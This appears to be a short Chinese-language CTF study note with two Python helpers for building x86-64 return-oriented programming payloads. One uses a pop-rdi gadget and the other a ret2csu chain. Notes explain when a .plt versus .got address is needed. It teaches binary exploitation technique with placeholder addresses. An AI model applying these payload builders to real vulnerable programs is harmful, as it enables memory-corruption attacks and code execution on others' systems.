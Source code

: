 ##Tips:
```
*1
def gadget_arg1(func_addr, arg):
    payload = overwrite
    payload += p64(poprdiret_addr)
    payload += p64(arg)
    payload += p64(func_addr)
    payload += p64(vulnfunc_addr)
    return payload
*2
def gadget_call(func_addr, arg1=0, arg2=0, arg3=0, init_ret1=movcall_addr, init_ret2=vulnfunc_addr):
    payload = overwrite
    payload += p64(pop5ret_addr)
    payload += p64(0)   # rbx
    payload += p64(1)   # rbp
    payload += p64(func_addr)
    payload += p64(arg3) + p64(arg2) + p64(arg1)
    payload += p64(init_ret1)    # call 
    payload += '\x00'*(7*0x8)       # pop7
    payload += p64(init_ret2)   # 最后返回到有漏洞的地方下次再次利用
    return payload
```

##注意上面这两个函数。
###1.最后是ret左右func_addr应该是plt段的函数地址，<br>
例如.plt [puts] = 0x400500 <br>
调用的时候是rip先到0x400500(这里的指令对应jmp 0x7???????)然后跳到该函数真正地址<br>
但是如果ret 0x601018(这是got表 里面存的是真正的函数地址的值) 就会执行0x601018这个地址对应的值(转换成code)<br>

###2. call func_addr
必须是got的地址<br>
.got[read] = 0x601028<br>
调用的时候是call 0x601028(call的是真正的函数的地址 比如call 0x7ff????????)<br>
但是如果用ret 就会ret到0x601028 rip指向0x601028 明显不是真正func_addr的地址<br>

###总结
ret 后面必须是 .plt<br>
__libc_init 里用call来必须是 .got的<br>



